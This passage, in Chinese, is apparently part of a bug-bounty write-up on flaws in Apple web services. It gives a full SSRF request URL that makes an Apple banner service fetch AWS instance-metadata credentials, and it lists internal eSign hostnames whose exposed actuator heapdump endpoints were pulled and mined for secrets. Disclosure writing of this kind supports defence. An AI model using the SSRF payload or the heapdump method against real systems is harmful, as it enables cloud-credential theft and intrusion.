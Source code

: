 由於我們在 AWS 上知道這一點，因此我們嘗試訪問 AWS metadata URI：  

```
https://banners.itunes.apple.com/bannerimages/banner.png?pr=itunes&t=catalog_black&c=us&l=en-US&id=1528672619%26cachebust=12345%26url=http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance%26&w=800&h=800&store=books&cache=false
```

這會 render 新的 banner image
- 其中包含 ec2 和 iam 角色的完整 AWS key：

![](https://secureservercdn.net/198.71.233.25/623.f31.myftpupload.com/wp-content/uploads/2020/08/image-1.png)  

大多數 Apple 有趣的基礎設施似乎都在`/8 IP CIDR` 中，他們稱為 `Applenet`
- 但他們在 AWS ec2/S3 中確實有相當多的主機和服務
- 我們知道 SSRF 不會對我們執行的偵察非常有趣
- 因為大多數有趣的 corp targets 都在 Applenet 而不是 AWS。

總的來說，攻擊者可能會用它來
- 從 Apple 的內部 Amazon Web Services 環境中讀取內容
- 從 metadata page，存取到 AWS ec2 keys

## Apple eSign 上的 Heap Dump 允許攻擊者破壞各種外部員工管理工具


在我們最初的 recon 階段收集 sub-domaints 並發現 Apple 的 public-facing 表面時
- 我們發現了一堆 `esign`
- https://esign-app-prod.corp.apple.com/
- https://esign-corpapp-prod.corp.apple.com/
- https://esign-internal.apple.com
- https://esign-service-prod.corp.apple.com
- https://esign-signature-prod.corp.apple.com
- https://esign-viewer-prod.corp.apple.com/
- https://esign.apple.com/

載入 subdomain 後，會立刻 redirected 到 `/viewer` 資料夾
- 當經過 `Apple idmsa authentication flow` 時，會 return `you are not authorized` error

![](https://i.imgur.com/tFKClIe.png)  

我們無法從此頁面訪問任何 links 或有趣的 js 文件
- 因此我們嘗試了一些 wordlists 的來看是否可以找到 application endpoints
- 從這裡我們發現 `/viewer/actuator` response 所有 actuator endpoints ，包括 mapping 和 heapdump

![](https://i.imgur.com/eo7Yjbt.png)  

我們無法通過向 state-changing requests 來嘗試 Remote Code Execution 來進行更改
- 因此必須找到替代途徑來證明影響

這些 mappings 展示了所有的 Web 路由
- 包括位於主機根目錄的附加文件夾，其中包含額外的 actuator heapdumps
- 正是在這一點上，我們意識到 actuator endpoints 在所有 `esign subdomains` 的每個  app folder 中都存在漏洞
- 從這裡我們從 `ensign-internal` 抓取了一個 heapdump

我們使用 `Eclipse Memory Analyzer` 載入 `heapdump` 並將所有字符串導出到 csv 以使用 grep 進行篩選。
 